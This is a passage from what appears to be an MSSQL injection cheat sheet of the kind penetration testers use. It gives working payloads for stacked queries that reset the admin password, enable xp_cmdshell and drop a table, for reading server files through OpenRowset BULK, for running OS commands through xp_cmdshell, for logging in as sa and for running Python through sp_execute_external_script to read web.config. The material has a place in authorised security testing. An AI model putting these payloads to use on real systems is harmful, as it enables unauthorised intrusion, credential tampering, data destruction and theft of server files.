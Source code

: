     -- updating password with a stacked query
    SELECT id, username, password FROM users WHERE username = 'admin'exec('update[users]set[password]=''a''')--

    -- using the stacked query to enable xp_cmdshell
    -- you won't have the output of the query, redirect it to a file 
    SELECT id, username, password FROM users WHERE username = 'admin'exec('sp_configure''show advanced option'',''1''reconfigure')exec('sp_configure''xp_cmdshell'',''1''reconfigure')--
    \`\`\`

* Use a semi-colon ";" to add another query
    \`\`\`sql
    ProductID=1; DROP members--
    \`\`\`


## MSSQL Read file

**Permissions**: The `BULK` option requires the `ADMINISTER BULK OPERATIONS` or the `ADMINISTER DATABASE BULK OPERATIONS` permission.

\`\`\`sql
-1 union select null,(select x from OpenRowset(BULK 'C:\Windows\win.ini',SINGLE_CLOB) R(x)),null,null
\`\`\`


## MSSQL Command execution

\`\`\`sql
EXEC xp_cmdshell "net user";
EXEC master.dbo.xp_cmdshell 'cmd.exe dir c:';
EXEC master.dbo.xp_cmdshell 'ping 127.0.0.1';
\`\`\`

If you need to reactivate xp_cmdshell (disabled by default in SQL Server 2005)

\`\`\`sql
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1;
RECONFIGURE;
\`\`\`

To interact with the MSSQL instance.

\`\`\`powershell
sqsh -S 192.168.1.X -U sa -P superPassword
python mssqlclient.py WORKGROUP/Administrator:password@192.168.1X -port 46758
\`\`\`

Execute Python script 

> Executed by a different user than the one using xp_cmdshell to execute commands

\`\`\`powershell
#Print the user being used (and execute commands)
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("getpass").getuser())'
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("os").system("whoami"))'
#Open and read a file
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(open("C:\\inetpub\\wwwroot\\web.config", "r").read())'
#Multiline
EXECUTE sp_execute_external_script @language = N'Python', @script = N'
import sys
print(sys.version)
'